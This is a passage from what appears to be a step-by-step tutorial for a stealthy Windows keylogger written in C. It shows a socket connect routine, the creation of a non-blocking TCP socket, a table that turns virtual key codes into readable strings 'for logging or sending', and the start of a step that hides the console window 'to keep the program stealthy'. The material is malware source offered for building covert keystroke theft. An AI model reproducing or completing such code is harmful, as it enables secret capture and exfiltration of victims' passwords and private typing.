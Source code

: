 ```c
        return 0;
    }
    return 1; // Connected immediately
}
```

4. **Create Non-blocking Socket**

Creates a TCP socket in non-blocking mode for asynchronous operations.

```c
SOCKET CreateNonBlockingSocket() {
    SOCKET newSock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (newSock == INVALID_SOCKET) {
        return INVALID_SOCKET;
    }
    u_long mode = 1;
    if (ioctlsocket(newSock, FIONBIO, &mode) != NO_ERROR) {
        closesocket(newSock);
        return INVALID_SOCKET;
    }
    return newSock;
}
```

5. **Map Virtual Keys to Strings**

Converts virtual key codes to readable strings for logging or sending.

```c
const char* GetKeyString(DWORD vkCode) {
    switch (vkCode) {
        // Mouse buttons
        case 0x01: return "[LCLICK]";
        case 0x02: return "[RCLICK]";
        case 0x04: return "[MBUTTON]";

        // Control keys
        case VK_BACK: return "[BACKSPACE]";
        case VK_TAB: return "[TAB]";
        case VK_RETURN: return "[ENTER]";
        case VK_SHIFT: return "[SHIFT]";
        case VK_CONTROL: return "[CTRL]";

        // ...SNIP other keys for brevity...

        default:
            return "[UNKNOWN]";
    }
}
```

6. **Hide Console Window**

Prevents the console window from showing to keep the program stealthy.
